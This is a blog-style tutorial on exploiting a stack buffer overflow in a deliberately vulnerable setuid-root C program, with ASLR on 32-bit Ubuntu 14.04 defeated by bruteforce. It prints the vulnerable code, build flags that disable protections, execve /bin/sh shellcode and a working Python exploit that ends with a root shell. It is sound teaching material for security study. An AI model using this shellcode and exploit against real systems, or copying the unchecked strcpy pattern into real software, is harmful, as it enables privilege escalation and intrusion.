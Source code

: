 ```yaml
---
layout: post
title: Exploiting Simple Buffer Overflow (2) - Shellcode + ASLR Bruteforcing
comments: true
---
```


Hi! For my second article on exploiting simple buffer overflow, I want to talk about bruteforcing against ASLR (Address Space Layout Randomization). For those who are not so familiar with ASLR, it is a common countermeasure technique against traditional stack-based stack buffer overflow exploit--- it randomizes the memory address layout (e.g. stack) every time a program is run so that an attacker cannot know the exact location of shellcode/variable/etc beforehand.
It is enabled by default for most recent operation systems, and it is fairly effective for 64-bit systems (the range of randomization of address layout is 28-bit). However, for 32-bit systems, the range of randomization of address layout is so much smaller that bruteforcing is feasible.  
  
  
So, in this article, I will demonstrate a bruteforce against ASLR in 32-bit system, so that an arbitrary shellcode can be run. Note that other countermeasure techniques (e.g. DEP, Canary) are not used for the sake of simplicity in this experiment. (I promise that I will post about attacks against these techniques in the future!) Also, source code used in this article can be downloaded from [here](https://github.com/taishi8117/bof_lab/tree/master/bof).  

-------------------

I will use Ubuntu 14.04 32-bit for this experiment.  

```
canopus@canopus:~/bof_lab/bof|master
⇒  uname -a
Linux canopus 3.16.0-50-generic #67~14.04.1-Ubuntu SMP Fri Oct 2 22:08:53 UTC 2015 i686 i686 i686 GNU/Linux
canopus@canopus:~/bof_lab/bof|master
⇒  lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.3 LTS
Release:	14.04
Codename:	trusty
canopus@canopus:~/bof_lab/bof|master
⇒  gcc --version
gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4
Copyright (C) 2013 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

And here is a simple vulnerable program that I will use. As you can see, `vuln()` function has a buffer overflow vulnerability when `strcpy` is called.  

```C
#include    <stdio.h>
#include    <stdlib.h>
#include    <assert.h>
#include	<string.h>


void vuln (const char* arg){
	char buffer[100];
	strcpy(buffer, arg);
	printf("Hello %s\n", buffer);
	printf("[+] buffer @ %p\n", buffer);
}

int main (int argc, char **argv){
	
	if (argc != 2) {
		printf("Usage: %s <buffer>\n", argv[0]);
		exit(1);
	}
	vuln(argv[1]);
		return 0;
}
```

And for Makefile, make sure that `-fno-stack-protector` and `-z execstack` are included in the flags.  

```
CC=gcc
CFLAGS=-std=c99 -Wall -fno-stack-protector -z execstack

all: bof

bof: bof.o
	$(CC) $(CFLAGS) -o $@ $^
	sudo chown 0:0 $@
	sudo chmod u+s $@

bof.o: bof.c

clean:
	rm bof.o bof
```

After it was compiled, make sure that ASLR is turned on. Note that `echo 1 | sudo tee /proc/sys/kernel/randomize_va_space` can turn on ASLR. (`echo 0` to disable, `echo 2` to enable full ASLR)  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  echo 1 | sudo tee /proc/sys/kernel/randomize_va_space
1
canopus@canopus:~/bof_lab/bof|master⚡
⇒  gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

Let's examine how the program behaves when its buffer is overflowed.  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
gdb-peda$ pattern_create 120
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
gdb-peda$ run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
Starting program: /home/canopus/bof_lab/bof/bof 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
Hello AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA
[+] buffer @ 0xbf991ccc

Program received signal SIGSEGV, Segmentation fault.
(...)

gdb-peda$ pattern_search
Registers contain pattern buffer:
EIP+0 found at offset: 112		(<== offset: 112)
EBP+0 found at offset: 108
(...)

gdb-peda$ p $eip
$1 = (void (*)()) 0x41384141
```

As you can see, 4 bytes starting from 112th character in the input string will overwrite EIP.   

Let's also check how ASLR affects the address of buffer.  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbfe9a8fc
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbfb43e4c
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbf8c941c
```

As you can see, the location of `buffer` is randomized every time the program is run, and it is impossible to guess its exact location for the next execution. However, if you examine the location of buffer enough times, you will realize that its location is within the range of `0xbf*****c`. In this case, there are 1048576 possible locations where buffer is loaded. So, you can use a strategy --- randomly pick a memory address within the valid range, and run the program repeatedly until buffer happens to be located at that location and that's when the shellcode is executed.  


Let's also write a shellcode that executes '/bin/sh' so you can get a shell. I will not explain the details of how to write shellcode, but there are lots of resources on the web that you can find very useful.  

```nasm
global _start

section .text

_start:
	xor eax, eax
	push eax

	push 0x68732f2f		;//sh
	push 0x6e69622f		;/bin
	mov ebx, esp		;moving the pointer to "/bin//sh" to ebx

	push eax			;push 0 (=eax)
	mov edx, esp		;moving 0 to edx

	push ebx
	mov ecx, esp		;moving the pointer to "/bin//sh" to ecx

	mov al, 11
	int 0x80			;execv syscall
```

Now, we have everything that's needed to exploit this program. Below is the exploit code written in Python. Note that in order to increase the chance of shellcode being executed, I added 4096 bytes of NOP instruction right before the inserted shellcode. In this way, if the returned address (=addr_buffer+bufsize+offset+4) happens to be within this NOP range, the shellcode is properly executed as well (the longer the NOP sled, the less number of attempts necessary for a successful attack).  

```Python
#!/usr/bin/python

import struct, sys, time
from subprocess import PIPE, Popen

# exec /bin/sh
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

bufsize = 100
offset = 12     #incl. saved ebp
nopsize = 4096

def prep_buffer(addr_buffer):
    buf = "A" * (bufsize+offset)
    buf += struct.pack("<I",(addr_buffer+bufsize+offset+4))
    buf += "\x90" * nopsize
    buf += shellcode
    return buf

def brute_aslr(buf):
    p = Popen(['./bof', buf]).wait()

if __name__ == '__main__':
    addr_buffer = 0xbf92b39c    # randomly decided
    buf = prep_buffer(addr_buffer)
    i = 0
    while True:
        print i
        brute_aslr(buf)
        i += 1
```

And here it is! The shell was given after 998 attempts in my case. You can experiment in your environment too. Normally for this program with 4096 bytes of NOP sled, around 1000 times of attempts are necessary for a successful attack, which is significantly less than 1048576 (the number of possible address location of buffer)!  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  python exploit.py
(...)
(...)

[+] buffer @ 0xbfc2bc0c
996
(... snippet)

[+] buffer @ 0xbfb9930c
997
(... snippet)

[+] buffer @ 0xbf92721c
998
(... snippet)

[+] buffer @ 0xbf92a26c
# whoami
root
```
